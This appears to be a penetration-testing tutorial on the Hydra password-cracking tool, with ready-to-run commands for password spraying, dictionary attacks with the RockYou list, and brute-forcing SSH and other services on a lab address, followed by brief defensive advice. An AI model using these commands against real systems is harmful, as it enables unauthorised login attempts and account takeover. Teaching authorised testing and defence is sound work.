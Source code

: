 ```yaml
---
title: "How to Use Hydra to Hack Passwords – Penetration Testing Tutorial"
description: "Learn more about Hydra"
icon: "code"
draft: false
---
```


## Introduction

Hydra is a powerful brute-forcing tool used by penetration testers and ethical hackers to crack passwords of network services. It can perform rapid dictionary attacks against more than 50 protocols, including Telnet, FTP, HTTP, HTTPS, SMB, databases, and several other services. Developed by the hacker group "The Hacker’s Choice," Hydra was first released in 2000 as a proof-of-concept tool for attacking network logon services.

Unlike sequential brute-forcing tools, Hydra is a parallelized login cracker, allowing multiple connections simultaneously, significantly reducing the time required to crack a password.

This section will guide you through using Hydra, covering installation, common attack types, and essential flags and options. Note: This tutorial is for educational purposes only. Always obtain permission before scanning, brute-forcing, or exploiting any system.

## How to Install Hydra

### Pre-installed Systems

Hydra comes pre-installed with Kali Linux and Parrot OS. If you are using one of these, you can start working with Hydra immediately.

### Ubuntu

Use the `apt` package manager to install Hydra:

```sh
$ sudo apt install hydra
```

### macOS

Hydra is available under Homebrew:

```sh
$ brew install hydra
```

### Windows

It's recommended to use a virtual box and install Linux. Using Windows for professional penetration testing is not advisable.

## How to Work with Hydra

### Starting with Hydra

Begin by exploring the help command to understand Hydra's options:

```sh
$ hydra -h
```

This command provides a list of flags and options available in Hydra.

![hydra-help](https://i.imgur.com/fPGDlMF.png)

### Single Username/Password Attack

To perform a simple attack with known username and password:

```bash
$ hydra -l <username> -p <password> <server> <service>
```

Example:

Assume you had a user named `admin`, and password named `admin` hosted at `10.10.137.50`. (Make sure you have a service running at a hosted address and can connect via ssh).

```sh
$ hydra -l admin -p admin 10.10.137.50 ssh
```

### Password Spraying Attack

To perform a password spray attack where you test a known password against multiple usernames (in a case where you don't know exactly who the user is):

1. Create a file called `users.txt` with the following content:

```bash
root
admin
user
tech
steve
richard
```
2. Run the password spray attack:
   We are going to test the password "admin".
```sh
   hydra -L users.txt -p admin 10.10.137.50 ssh
```

### Dictionary Attack

To perform a dictionary attack using a list of passwords:

1. Use the RockYou wordlist, typically found at `/usr/share/wordlists/rockyou.txt` on Kali Linux or on ([github](https://github.com/teamstealthsec/wordlists)).
2. Run the dictionary attack:
   ```sh
   $ hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 10.10.137.50 ssh
   ```

### Verbosity and Debugging

Hydra can be awfully quiet when running large brute-force attacks. If we have to make sure Hydra is doing what it is expected to do, there are two flags we can use.

The verbosity (-v) flag will show us the login attempt for each username/password combination. This can be a bit much when there are a lot of combinations to go through, but if it is something you need, we can use the verbosity flag.

#### Verbosity Flag

To show each login attempt:

```sh
$ hydra -v -L users.txt -P /usr/share/wordlists/rockyou.txt 10.10.137.50 ssh
```

#### Debug Flag

To gather more detailed information:

```sh
$ hydra -d -L users.txt -P /usr/share/wordlists/rockyou.txt 10.10.137.50 ssh
```

### Saving Results

To save the results of your attack:

```sh
$ hydra -l <username> -p <password> <ip> <service> -o <file.txt>
```

## Additional Flags and Formats

### Service Specification

Specify the service with the IP address:

```sh
$ hydra -l <username> -p <password> ssh://<ip>
```

### Resuming Attacks

Resume a session if Hydra exits during an attack:

```sh
$ hydra -R
```

### Custom Ports

Specify custom ports if services run on non-default ports:

```sh
$ hydra -l <username> -p <password> <ip> <service> -s <port>
```

### Attacking Multiple Hosts

Attack multiple hosts using a file containing a list of IP addresses:

```sh
$ hydra -l <username> -p <password> -M <host_file.txt> <service>
```

### Targeted Combinations

Use specific username/password combinations:

1. Create a file `combinations.txt` with the format:
   ```txt
   username1:password1
   username2:password2
   username3:password3
   ```
2. Run the command:
   ```sh
   $ hydra -C combinations.txt <ip> <service>
   ```

## How to Defend Against Hydra

### Strong Passwords

Use strong passwords to make brute-force attacks difficult.

### Password Policies

Enforce policies to change passwords regularly.

### Limiting Authorization Attempts

Lock accounts after a few failed login attempts to prevent brute-force attacks.

### Use Re-captcha

Implement re-captcha to prevent automated brute-force attacks.

## Summary

Hydra is a fast, flexible network brute-forcing tool essential for penetration testing. With its modular architecture and support for parallelization, Hydra can be extended to include new protocols and services easily. Always use Hydra responsibly and ethically.
